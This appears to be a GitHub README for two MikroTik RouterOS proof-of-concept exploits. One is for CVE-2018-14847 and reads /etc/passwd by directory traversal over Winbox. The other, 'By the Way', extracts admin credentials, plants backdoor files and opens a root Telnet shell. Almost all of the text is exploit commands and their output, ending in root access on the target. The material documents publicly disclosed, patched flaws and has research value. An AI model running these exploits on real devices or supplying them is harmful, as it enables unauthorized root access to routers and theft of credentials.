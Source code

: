 ### CVE-2018-14847

This PoC reads /etc/passwd on the remote system via directory traversal over Winbox (8291)


#### Usage

```sh
albinolobster@ubuntu:~/mikrotik/poc/cve_2018_14847/build$ ./cve_2018_14847_poc -i 192.168.8.189 -p 8291

=== File Contents (size: 69) ===
nobody:*:99:99:nobody:/tmp:/bin/sh
root::0:0:root:/home/root:/bin/sh
```

### By the Way

This PoC creates the system backdoor file that enables root Telnet. It essentially allows a remote attacker with no knowledge of the admin password to root the device. Note that this partially leverages CVE-2018-14847 and was therefore patched in April, 2018.


#### Usage

```sh
albinolobster@ubuntu:~/mikrotik/poc/bytheway/build$ ./btw -i 192.168.8.189

   ╔╗ ┬ ┬  ┌┬┐┬ ┬┌─┐  ╦ ╦┌─┐┬ ┬
   ╠╩╗└┬┘   │ ├─┤├┤   ║║║├─┤└┬┘
   ╚═╝ ┴    ┴ ┴ ┴└─┘  ╚╩╝┴ ┴ ┴ 

[+] Extracting passwords from 192.168.8.189:8291
[+] Searching for administrator credentials 
[-] Failed to find admin creds. Trying default.
[+] Using credentials - admin:
[+] Creating /pckg/option on 192.168.8.189:8291
[+] Creating /flash/nova/etc/devel-login on 192.168.8.189:8291
[+] There's a light on
albinolobster@ubuntu:~/mikrotik/poc/bytheway/build$ telnet -l devel 192.168.8.189
Trying 192.168.8.189...
Connected to 192.168.8.189.
Escape character is '^]'.
Password: 


BusyBox v1.00 (2018.02.20-13:23+0000) Built-in shell (ash)
Enter 'help' for a list of built-in commands.

# uname -a
Linux MikroTik 3.3.5-smp #1 SMP Tue Feb 20 13:10:19 UTC 2018 i686 unknown
# cat /rw/logs/VERSION 
v6.41.3 Mar/08/2018 11:55:40
# 
```
